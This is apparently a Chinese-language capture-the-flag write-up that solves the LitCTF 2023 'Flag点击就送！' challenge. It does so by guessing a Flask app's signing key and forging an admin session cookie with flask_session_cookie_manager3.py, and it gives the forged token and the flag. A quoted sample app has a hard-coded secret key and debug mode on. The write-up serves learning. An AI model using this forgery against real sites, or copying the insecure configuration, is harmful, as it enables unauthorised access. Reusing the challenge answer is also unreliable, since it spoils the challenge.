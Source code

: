 ## [LitCTF 2023\]Flag点击就送！ | NSSCTF](https://www.nssctf.cn/problem/3872)
![image](https://github.com/user-attachments/assets/61ee36d4-f5fd-4539-8b87-5a47f43243d6)
> [!TIP]
题目一开始提示管理员才能拿到flag

![image](https://github.com/user-attachments/assets/c52243ba-d9d5-49ed-af69-999bc87e8aaa)
有输入框，想都没想直接填写**admin**
![image](https://github.com/user-attachments/assets/0bbfc740-074a-4d0d-b31e-b5f86edf6c8d)
不出所料诶~~~
> [!NOTE]
那就尝试一下别的随便用户名，诶有个拿flag的按钮，好吧，要**管理员**才可以

![image](https://github.com/user-attachments/assets/561e2fd8-2f9b-4f50-8648-9bc4cec85eb5)
> [!TIP]
那就只能伪造了
### 和之前做过的邮箱重置链接的JWT不同，这里找到session
![image](https://github.com/user-attachments/assets/7a6b10d0-bcfd-44d3-a286-ec310f92ecab)
> 有点像base64，但我之前研究的一点经验，有点像签名
### 扔给赛博厨子看看
![image](https://github.com/user-attachments/assets/f3552e8e-48f2-460c-925c-92ddbb56fe03)
果然是签名
### 仔细查看网页框架
> [!NOTE]
是flask框架，这次是session伪造了

查看flask资料和各位师傅的wp
> [!TIP]
**flask框架的session是存储在客户端的，那么就需要解决session是否会被恶意纂改的问题，而flask通过一个secret_key，也就是密钥对数据进行签名来防止session被纂改。**
```
  from flask import Flask, request, render_template, session, redirect
from datetime import datetime

app = Flask(__name__)

app.config['SECRET_KEY'] = 'laowangaigebi'  # 设置session加密的密钥

@app.route('/login', methods=['GET', 'POST'])  # 支持get、post请求
def login():  # 登录视图函数    
    # 模拟登录成功后把uid和username存到session里
    session['uid'] = '123456'
    session['username'] = 'laowang'    
    return redirect('/')  # 登录成功后到首页

@app.route('/', methods=['GET', 'POST'])  # 支持get、post请求
def index():
    username = session.get('username')  # 取session
    if username:        
        return 'welcome %s' % username    
    else:        
        return '请登录'

app.config['DEBUG'] = True
if __name__ == '__main__':    
    # 0.0.0.0代表任何能代表这台机器的地址都可以访问    
    app.run(host='0.0.0.0', port=5000)  # 运行程序
#flask的加密语言
作者：小源
链接：https://juejin.cn/post/6844903833663963144
来源：稀土掘金
```
### 猜测key
> 由于题目没有给，我们只好猜测key为LitCTF
```
python flask_session_cookie_manager3.py encode -s 'LitCTF' -t '{"name":"admin"}'eyJuYW1lIjoiYWRtaW4ifQ.ZUoYpw.-wWfai1NY-VXpGGXHqnCG5H9-Ug
```
使用kali虚拟机运行一下，将得到的session填入cookie-editor保存，刷新后即可拿到flag
> **NSSCTF{47877fbb-32b0-46ec-bdd6-a926b910870e}**